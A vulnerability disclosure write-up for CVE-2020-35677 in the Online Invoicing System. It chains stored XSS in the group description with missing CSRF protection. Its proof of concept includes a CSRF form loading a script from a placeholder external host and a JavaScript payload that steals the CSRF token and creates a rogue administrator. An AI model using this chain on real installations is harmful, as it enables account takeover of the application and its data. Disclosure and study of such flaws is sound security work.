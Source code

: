 ```yaml
---
layout: post
title: CVE-2020-35677
tags: [CVE, XSS, CSRF, PHP]
author: gogetit @ Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 4.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via chaining Stored XSS + CSRF
CVE ID: CVE-2020-35677
```

# Introduction

Online Invoicing System fails to adequately sanitize fields for HTML characters upon an administrator creating a new group thus resulting in Stored Cross-Site Scripting. The caveat here is that an attacker would need administrative privileges in order to create the payload thus completely mitigating the privilege escalation impact as there is only one high privileged role. However it was discovered that the endpoint which is responsible for creating the group lacks CSRF protection as well making it possible for an attacker to chain both of these vulnerabilities eventually resulting in taking over the application.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

`admin/pageEditGroup.php` returns a form which allows an administrator to create a new group. This form has two fields which accept user input (`Group Name` & `Description`) while the rest of the fields are checkbox and radio forms.

To learn more about how this form works, lets take a closer look at the code which is responsible.

**admin/pageEditGroup.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/formcode.png)

As shown on Lines 3 & Lines 4, the value of the user inputs retrieved from the body of the POST request are first passed into the `makeSafe()` function before being initialized as the value of their respective variable. The `makeSafe()` function was taken apart in great detail in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, `makeSafe()` is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

While `makeSafe()` is helpful for preventing SQL Injections, it however is not responsible for sanitizing any user input which contains HTML characters. As a result of this, the unsanitized user input is stored directly in the database as shown on Line 35:

~~~php
sql("insert into membership_groups set name='{$name}', description='{$description}', allowSignup='{$allowSignup}', needsApproval='{$needsApproval}'", $eo);
~~~

However before declaring this Cross-Site Scripting, lets see if there is any sanitization done on the values before reflecting them onto the page.

**admin/pageViewGroups.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/viewgroup.png)

As shown on Line 1 above, a SQL query is executed which will return the values from the following columns:

~~~
groupID - Column 0
name - Column 1
description - Column 2
~~~

Afterwards a while loop is constructed in order to iterate and retrieve the values returned from each column. The index in which `$row` is returning corresponds to the position of the columns listed above, for example `$row[0]` will be the `groupID` while `$row[1]` will be the `name` and finally `$row[2]` will be the `description`.

As shown on Line 6, the application directly reflects the values of `$row[0]` and `$row[1]` onto the page. Before reflecting the value of `$row[2]`, it is passed into the `thisOr()` function in which the [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) explained the logic of the function. 

TL;DR: `thisOr()` performs a ternary operation on the value of the passed in argument. If the value is not empty it will be directly returned. However in cases where the value is empty, the `&nbsp` HTML entity will be returned (which is a space). This function does nothing to sanitize any input being reflected onto the page.

Due to this, we can now confirm that the application would be vulnerable to Stored Cross-Site Scripting.

While this can be considered an issue, any impact here is severely mitigated as unlike other applications such as Wordpress which provide multiple tiers of high privileges such as Moderator, Admin, Super Admin, etc, as this application only has one admin level. This means that in order for an attacker to succesfully exploit the application, they would either need to convince the application's admin to input the XSS payload which is very unlikely or have an account with admin privileges themselves which defeats the purpose of exploiting the application via this way.

However when viewing the request which is responsible for creating the group, an astute attacker may observe that there appears to be no form of CSRF protection:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/request.png)

As reviewed in an [earlier writeup](https://labs.ingredous.com/2020/07/13/ois-membershipsignup-xss/) , the application does not utilize `Same Site Cookies` meaning this endpoint would be vulnerable to Cross-Site Request Forgery.

While this is could be considered a serious issue, it is not the end of the world for the application as the attacker only has the ability to CRUD groups. The attacker would be unable to add themselves directly into a group and moreso would be unable to create a group which has administrative privileges as the application only limits these types of privileges to the default Admin's group.

To recap where an attacker currently stands in the context of exploitation:
- Application is vulnerable to Stored XSS however an attacker which already has administrative privileges is required to create the initial payload.
- Application is vulnerable to CSRF which would allow an attacker to create custom groups.

In order for an attacker to gain successful remote exploitation on this application, they are able to chain the two vulnerabilities together to leverage a complete takeover. The attacker will need to first create a simple CSRF proof of concept payload which will look similar to:

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="randomgroup" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

In the CSRF proof of concept above, the attacker will need to replace either the value of the `name` parameter or `description` parameter with their payload. However it would be a good idea to test this locally first as the attacker will notice that the `name` field has a character length restriction in the database:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss2/sql.png)

As shown above, the `name` column is of type `VARCHAR(100)` meaning it will only take up to 100 bytes. As an ASCII character is 1 byte, the maximum characters you could store in this column would most likely be 100. While this is not a dealbreaker, it can definitely truncate the attacker's payload and ruin the exploitation process. However an attacker could also use the `description` parameter as it's value is directly reflected on the page as well. Looking at the `description` column is of type `text` and is able to take any amount of characters, making it the smarter choice here.

After updating the `description` parameter to contain the attacker's payload in the description above, the proof of concept is ready to be hosted.

Upon hosting the proof of concept and having the application's admin browse to it, the CSRF vulnerability will be triggered and a group will be created with the description containing an XSS payload.

Finally when the application's admin browses to the Groups List (located at `/admin/pageViewGroups.php`), the XSS payload will be executed thus resulting in a successful chain. As the XSS payload will be executed in the context of the application, the Same Origin Policy is bypassed therefore allowing an attacker to leverage their privileges to the highest available and effectively takeover the application.


# Proof of Concept

~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/admin/pageEditGroup.php" method="POST">
      <input type="hidden" name="groupID" value="" />
      <input type="hidden" name="name" value="Randomgroup" />
      <input type="hidden" name="description" value="<script src=//your-app.pw/payload.js></script>" />
      <input type="hidden" name="visitorSignup" value="1" />
      <input type="hidden" name="saveChanges" value="1" />
      <snip>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
~~~

**Replace `your-app.pw/payload.js` found in the value of the description parameter above.**

~~~javascript
//payload.js

// create admin with username attacker1337
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=&memberID=attacker1337&password=attacker1337&confirmPassword=attacker1337&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=&custom2=&custom3=&custom4=&comments&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~

The Javascript snippet above will create a new administrator with the username and password being `attacker1337`.
